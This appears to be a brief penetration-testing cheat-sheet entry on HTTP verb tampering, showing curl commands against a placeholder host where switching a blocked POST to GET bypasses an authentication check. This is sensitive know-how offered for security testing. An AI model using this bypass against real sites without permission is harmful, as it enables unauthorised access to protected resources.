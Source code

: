 # HTTP Verb Tampering

> Verb tampering could be used to bypass authentication. Test also for PUT or DELETE verbs.

Web Applications can include authentication to certain parts of the site only to a single method (i.e. POST). We can try to bypass authorization using verb tampering:

```bash
#Check available methods:
curl -v -X OPTIONS http://site.com

#Example of 403 Forbidden:
curl -v -X POST http://site.com
HTTP 403 Forbidden

#Doing the same request but with GET can lead to auth bypass
curl -v -X GET http://site.com
HTTP 200 OK
```
